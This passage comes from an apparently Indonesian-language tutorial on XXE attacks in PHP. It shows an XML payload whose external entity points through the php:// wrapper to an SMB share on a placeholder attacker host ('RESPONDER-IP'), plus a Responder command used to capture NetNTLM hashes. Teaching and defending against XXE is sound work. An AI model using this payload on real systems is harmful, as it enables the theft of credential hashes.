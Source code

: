 Untuk berinteraksi dengan protokol `SMB` \(khusus pada kasus XXE di php\) kita dapat memanfaakan wrapper `php://` dan URI untuk berinteraksi protokol SMB adalah `//`

Untuk masalah payload, tentu saja menggunakan external entity \(General/Parameter\).

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY steal SYSTEM "php://filter/convert.base64-encode/resource=//RESPONDER-IP/WhatEver">
]>
<root>
<name>test</name>
<tel>021212</tel>
<email>&steal;</email>
<password>pwd</password>
</root
```

Command untuk menjalankan Responder.

```bash
$ ./Responder.py -I <INTERFACES_NAME>
```

![Intercept NetNTML hash menggunakan Responder](../.gitbook/assets/netntlm.PNG)

### XXE And Open XML Document

### XXE And SSRF

## Conclusion

XXE attack terjadi karena XML Parser mengijinkan penggunaan External Entity. XXE adalah bug yang terjadi pada teknologi yang specifik yaitu XML, apabila masih belum mengerti tentang XXE, itu dikarenakan kurang nya pengetahuan terhadap XML itu sendiri.

## Update

Tulisin ini akan terus diupdate, karena memang masih banyak yang ingin dibahas mengenai XXE ini, terutama sifat-sifat dari XML parser dari berbagai bahasa pemrograman.

## Reference :
